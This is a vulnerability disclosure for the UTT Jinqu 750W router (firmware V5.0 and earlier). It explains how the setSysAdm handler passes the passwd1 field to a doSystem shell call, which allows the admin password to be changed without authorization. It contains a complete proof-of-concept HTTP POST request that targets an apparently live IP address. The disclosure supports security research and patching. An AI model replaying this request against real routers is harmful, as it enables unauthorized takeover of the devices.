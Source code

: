 # Information

**Vendor of the products:**   UTT

**Vendor's website:** [UTT艾泰-专业路由器、交换机、防火墙品牌](https://utt.com.cn/)

**Reported by:  **GuoHengyu(2183056014@qq.com)

**Affected products:** 进取 750W

**Affected firmware version:**  <=V5.0

**Firmware download address:** [UTT艾泰-专业路由器、交换机、防火墙品牌](https://utt.com.cn/downloadfile.php?id=2599)

# Overview

A critical authorization vulnerability exists in the Jinqu 750W router.
 An attacker can exploit the `setSysAdm` action by carefully crafting the `passwd1` parameter, allowing them to modify the administrator password without authentication or authorization.
 The vulnerability is ultimately triggered by a call to `doSystem("chpasswd.sh %s %s", "admin", Var);`, leading to unauthorized control over the router's administrative privileges.



# Vulnerability details

Here is the location where the specific function is executed

![image-20250427204357476](6/image-20250427204357476.png)





The `setSysAdm` function is registered within the `formDefineManagement` function.
 By controlling the `passwd1` field, it is possible to reach the `doSystem` call and modify the router's password.

![image-20250427205549982](6/image-20250427205549982.png)



# POC

```
POST /goform/setSysAdm HTTP/1.1
Host: 111.39.48.97:8888
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Authorization: Digest username="admin", realm="UTT", nonce="4bd7962ad83619f3192727e9180b7a18", uri="/goform/FastConfFirstLoad", algorithm=MD5, response="7b587a8b535c02071eda599da4f79e9f", opaque="5ccc069c403ebaf9f0171e9517f40e41", qop=auth, nc=00000135, cnonce="c40ffd3ddc23969a"
Connection: close
Referer: http://111.39.48.97:8888/framePage.asp
Cookie: td_cookie=2505500309; utt_bw_rdevType=; language=zhcn
Upgrade-Insecure-Requests: 1
Priority: u=4
Content-Type: application/x-www-form-urlencoded
Content-Length: 19

passwd1=admin111
```

![image-20250427213105369](6/image-20250427213105369.png)


